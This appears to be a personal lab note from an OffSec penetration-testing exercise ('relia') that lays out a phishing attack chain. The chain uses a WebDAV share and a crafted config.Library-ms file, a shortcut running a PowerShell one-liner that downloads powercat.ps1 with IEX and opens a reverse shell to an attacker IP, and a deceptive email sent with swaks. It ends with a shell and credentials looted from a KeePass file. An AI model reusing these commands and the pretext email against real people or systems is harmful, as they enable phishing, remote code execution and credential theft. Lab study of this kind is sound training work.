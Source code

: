 windows

# macros

create webdav directory which will be served on `WINPREP`

```
mkdir webdav
```

```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/Desktop/offsec/relia/189/webdav
```

![[Pasted image 20240607162802.png]]

### On windows

in vs-code make plain-text file with create new text file named as: config.Library-ms

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Create new shortcut on Desktop of windows
```
powershell.exe -c "Set-ExecutionPolicy Bypass -Scope Process -Force; IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.216:8000/powercat.ps1'); powercat -c 192.168.45.216 -p 4444 -e powershell"
```

> [!NOTE]
> Double click on config file it will open webdav directory

### along side

start `nc listner` and python server to serve `powercat.ps1`

```
cp /home/kali/Desktop/offsec/cmd_injection/powercat.ps1 .
```

```
python -m http.server 8000
```


### Phishing

make `body.txt`

```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

now from webdav directory send phishing thing

```
sudo swaks -t jim@relia.com  --from maildmz@relia.com --attach @config.Library-ms --server 192.168.208.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

![[Pasted image 20240607163315.png]]

### initial/privesc

got `relia\jim` shell as admin and found local.txt and proof.txt with keepass file in Documents

found jim creds from it

![[Pasted image 20240607174937.png]]